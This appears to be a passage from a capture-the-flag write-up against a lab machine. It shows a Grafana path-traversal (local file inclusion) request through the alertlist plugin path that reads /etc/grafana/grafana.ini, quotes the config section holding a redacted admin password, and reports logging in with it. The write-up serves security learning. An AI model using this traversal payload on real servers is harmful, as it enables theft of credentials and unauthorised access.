I found the LFI vulnerability quickly, but from there it took me a while to find how to use it. I read a bunch of files, but nothing I could use to get access to the server.

I read the Grafana configuration. 

```http
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini HTTP/1.1
Host: target.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2F
Upgrade-Insecure-Requests: 1
```

It returned a huge configuration file. It contained an admin password.

```ini
#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false

# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = REDACTED
```

I used the password to login in Grafana.
